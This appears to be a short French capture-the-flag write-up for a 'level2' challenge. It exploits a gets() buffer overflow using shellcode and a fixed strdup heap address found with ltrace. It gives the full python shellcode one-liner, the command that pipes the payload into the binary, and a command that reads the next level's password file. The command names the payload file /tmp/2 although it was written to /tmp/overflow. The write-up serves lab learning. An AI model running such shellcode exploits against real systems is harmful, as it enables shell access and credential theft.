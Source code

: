 comment trouver le flag2

exactement comme le flag1 on a des gets()

on va utiliser le debugger ltrace pour voir les adresses

peu importe la string rentree l'adresse de strdup reste la meme on va donc abuse de cette adresse (0x0804a008)

python -c "print '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 59 * 'X' + '\x08\x04\xa0\x08'[::-1]" > /tmp/overflow

cat /tmp/2 - | ./level2

cat /home/user/level3/.pass

on a notre flag